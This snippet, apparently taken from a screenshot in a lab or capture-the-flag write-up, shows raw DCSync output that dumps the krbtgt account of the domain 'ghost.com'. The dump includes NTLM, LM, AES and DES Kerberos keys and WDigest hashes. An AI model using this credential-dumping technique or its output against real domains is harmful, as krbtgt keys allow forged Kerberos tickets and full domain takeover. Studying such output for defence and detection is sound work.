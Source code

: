 ```sh
[DC] 'WIN-4JS3YOGGQ2T.ghost.com' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 2022/3/16 18:25:33
Object Security ID   : S-1-5-21-1238213221-2393825874-2881136966-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: a5269d41b184a97adc9b991f2ee21f12
    ntlm- 0: a5269d41b184a97adc9b991f2ee21f12
    lm  - 0: dadc5e38f4551dd9bd6f8673528f3d6a

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : GHOST.COMkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : da6374753cb6f5e191265a283115ced1fe1d2c5e5091d60093903cb90ef67fb7
      aes128_hmac       (4096) : 777c080c663f51196b554d5348ee8123
      des_cbc_md5       (4096) : 5e83f83776ae8a1a
      des_cbc_crc       (4096) : 5e83f83776ae8a1a
      rc4_plain         (4096) : a5269d41b184a97adc9b991f2ee21f12

* Primary:Kerberos *
    Default Salt : GHOST.COMkrbtgt
    Credentials
      des_cbc_md5       : 5e83f83776ae8a1a
      des_cbc_crc       : 5e83f83776ae8a1a
      rc4_plain         : a5269d41b184a97adc9b991f2ee21f12

* Packages *
    Kerberos-Newer-Keys

* Primary:WDigest *
    01  b56b310c7d4d84d51763197cc777e236
    02  f11fc690746ff0c5017fbb804a5afadb
    03  1284d4bd47f80c75715883ecae93aee3
    04  b56b310c7d4d84d51763197cc777e236
    05  f11fc690746ff0c5017fbb804a5afadb
    06  f0858287a155ee5ea15271dca0c480c3
    07  b56b310c7d4d84d51763197cc777e236
    08  bc8cf0c0bb41ee11fd93ce726577cd2e
    09  bc8cf0c0bb41ee11fd93ce726577cd2e
    10  053d15785d6b8e58659321a0c0bbe730
    11  910f26088b80677ff20523ae2f570ad2
    12  bc8cf0c0bb41ee11fd93ce726577cd2e
    13  37dca035e5d9ce4b7539b40dd4a3b711
    14  910f26088b80677ff20523ae2f570ad2
    15  c01bc6cc7073767ae9332d6948012efb
    16  c01bc6cc7073767ae9332d6948012efb
    17  5bef1b58b30a684217b555a9c694b018
    18  c7ddf9a29f31081a0c2c59f0ba887591
    19  6ed3c0509d5ed0b11be6d3cb7d9eec89
```